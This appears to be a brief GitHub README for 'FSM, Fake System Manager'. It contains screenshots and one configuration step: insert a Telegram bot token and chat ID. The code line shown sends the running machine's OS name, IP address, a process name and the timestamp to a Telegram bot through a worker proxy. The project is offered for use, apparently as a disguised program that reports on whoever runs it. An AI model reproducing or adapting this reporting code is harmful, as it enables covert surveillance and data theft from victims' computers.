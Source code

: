 # FSM
Fake System Manager
## Image
<img width="1919" height="1019" alt="image" src="https://github.com/user-attachments/assets/5d06101d-e1f9-422e-8e38-708ccefd61f3" />
<img width="497" height="1000" alt="image" src="https://github.com/user-attachments/assets/9831bab9-8dcc-4610-a269-67a418a01dbc" />
## Change
<pre>Token Bot Telegram & Chat ID</pre>
```bash
http.Open "GET", "https://telegram.mrsaad.workers.dev/bot{TOKEN}/sendMessage?chat_id={ID}&text=" & os.Caption & " - " & ip.IPAddress(0) & " : " & objProcess.Name & " - " & Time & " - " & Date, False```
